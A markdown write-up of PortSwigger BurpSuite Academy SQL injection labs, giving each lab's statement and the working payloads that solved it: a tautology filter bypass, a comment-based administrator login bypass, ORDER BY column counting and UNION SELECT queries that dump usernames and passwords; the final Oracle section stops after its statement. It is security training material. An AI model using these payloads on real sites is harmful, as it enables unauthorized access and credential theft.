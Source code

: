 ```yaml
---
title: BurpSuite Labs - SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags: 
  - burpsuite
  - sqli
---
```


# BurpSuite Labs - SQL injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Enuntiation

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Solution

Filter by one of the categories and, in the URL, instead of that categorry, after the "=" add:

```
' OR '1'='1
```



## SQL injection vulnerability allowing login bypass

### Enuntiation

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

### Solution

In the login page, add to username:

```
administrator'--
```

In password it doesn't matter what you write.


## SQL injection UNION attack, determining the number of columns returned by the query

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

### Solution

In the category filter, filter by 'Gift'. Then in the URL, substitute Gift by: 

```
' OR '1'='1' order by 1-- -
' OR '1'='1' order by 2-- -
' OR '1'='1' order by 3-- -
' OR '1'='1' order by 4-- -
```

When substituting by the last string, you will have an error. Bingo! Our last successful try was with 3 columns, so the table is holding 3 columns. Now we can launch our UNION attack:

```
' OR '1'='1' UNION SELECT all  null,null,null-- -
```

![Scrrenshot](../img/bupsuite-sqli3.png)


## SQL injection UNION attack, finding a column containing text

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

### Solution

Select category filter GIFT in the Home lab.

Substitute in the URL Gift by the following string to guess which column is being displayed: 

```
' UNION SELECT null,null,null-- -
```

The Lab environment is providing at the top of the screen a string of characters that you will need to get reflected in order to pass the lab. In my case it was the string 'FEvLOw'. I tried that string in different positions and I got success in the second position: 

```
'+UNION+SELECT+'FEvLOw',NULL,NULL--
'+UNION+SELECT+NULL,'FEvLOw',NULL--
```

![Scrrenshot](../img/bupsuite-sqli4.png)


## SQL injection UNION attack, retrieving data from other tables

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Solution

First, we test the number of columns and we obtain 2.

Later we run

```
' UNION SELECT ALL username,password FROM users-- -
```

![screenshot](../img/bupsuite-sqli5.png)


## SQL injection UNION attack, retrieving multiple values in a single column

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Solution

Like in the previous lab, first we test how many columns there are:

```
' UNION SELECT ALL NULL,NULL-- -
```

After that we check that (in my case) the column that is reflected is the second one, and we use that to retrieve the users and passwords:

```
' UNION SELECT NULL,username FROM users-- -
```

And we get:

```
carlos
administrator
wiener
```

And then, passwords:

```
' UNION SELECT NULL,password FROM users-- -
```

And we get:

![screenshot](../img/bupsuite-sqli6.png)

## SQL injection attack, querying the database type and version on Oracle

### Enuntiation

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

### Solution

